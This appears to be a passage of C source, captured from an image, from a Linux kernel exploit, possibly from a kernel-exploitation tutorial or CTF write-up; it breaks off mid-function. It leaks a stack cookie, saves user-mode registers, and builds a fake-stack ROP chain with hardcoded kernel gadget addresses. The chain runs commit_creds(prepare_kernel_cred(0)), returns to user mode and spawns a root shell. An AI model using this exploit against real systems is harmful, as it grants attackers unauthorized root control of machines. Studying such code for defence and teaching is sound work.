    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

uint64_t prepare_kernel_cred = 0xffffffff814c67f0;   // the offset from /proc/kallsyms
uint64_t commit_creds = 0xffffffff814c6410;

uint64_t pop_rdi_ret = 0xffffffff8100767c;     // pop rdi; ret
uint64_t mov_rdi_rax_movrsi_poprbp = 0xffffffff816bf203; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;
uint64_t swapgs_poprbp_ret = 0xffffffff8120109c; // swapgs; pop rbp; ret;
uint64_t iretq = 0xffffffff8100c0d9; // iretq;

void build_fake_stack(void){
    uint64_t * fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    // need to subtract 0x1000, as prepare_kernel_cred and commit_creds also need space on the stack.
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // popped to R12 due to gadget
    fake_stack[off++] = 0x0; // popped to RBP due to gadget
    // remainder of the ROP chain is as previously
    fake_stack[off++] = (uint64_t) pop_rdi_ret;
    fake_stack[off++] = (uint64_t) 0;
    fake_stack[off++] = (uint64_t) prepare_kernel_cred;  // prepare_kernel_cred(0)

    fake_stack[off++] = (uint64_t) mov_rdi_rax_movrsi_poprbp;  // need to move result to rdi
    fake_stack[off++] = (uint64_t) 0; // popped to ebp
    fake_stack[off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    fake_stack[off++] = (uint64_t) swapgs_poprbp_ret; // swapgs
    fake_stack[off++] = (uint64_t) 0; // this is popped to rbp

    fake_stack[off++] = (uint64_t) iretq;  // restore registers from user mode
    fake_stack[off++] = (uint64_t) user_rip;
    fake_stack[off++] = (uint64_t) user_cs;
    fake_stack[off++] = (uint64_t) user_rflags;
    fake_stack[off++] = (uint64_t) user_sp;
    fake_stack[off++] = (uint64_t) user_ss;